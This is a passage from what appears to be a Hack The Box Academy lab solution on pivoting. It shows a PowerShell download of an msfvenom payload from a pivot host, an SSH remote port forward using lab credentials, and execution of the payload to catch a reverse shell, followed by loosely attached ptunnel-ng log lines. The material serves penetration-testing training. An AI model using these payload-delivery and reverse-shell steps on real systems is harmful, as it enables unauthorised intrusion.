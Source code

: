Subsequently, students need to download the `msfvenom` payload from the Ubuntu pivot host (which has a Python web server up and listening on port 8123), using the IP address of the `ens224` interface (i.e., `172.16.5.129`):

Code: powershell

```powershell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\\backupscript.exe"
```

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\\backupscript.exe"
```

From Pwnbox/`PMVPN`, students need to perform an SSH remote port forward, utilizing the credentials `ubuntu:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN

OpenSSH_8.4p1 Debian-5, OpenSSL 1.1.1k  25 Mar 2021

<SNIP>

debug1: Next authentication method: password
ubuntu@10.129.202.64's password: 
debug1: Authentication succeeded (password).
Authenticated to 10.129.202.64 ([10.129.202.64]:22).
debug1: Remote connections from 172.16.5.129:8080 forwarded to local address 0.0.0.0:8000
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Remote: Forwarding listen address "172.16.5.129" overridden by server GatewayPorts
debug1: remote forward success for: listen 172.16.5.129:8080, connect 0.0.0.0:8000
```

Now, students will be able to forward connections from the pivot host to the `msfconsole` listener. Thus, at last, students now need to execute the `msfvenom` payload that is on the Windows target to receive a shell back through the pivot host on the `msfconsole` listener:

![[HTB Solutions/CPTS/z. images/843fb35585a9dfaaab0273604a82270d_MD5.jpg]]

Answer: `172.16.5.129`

# Remote/Reverse Port Forwarding with SSH


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.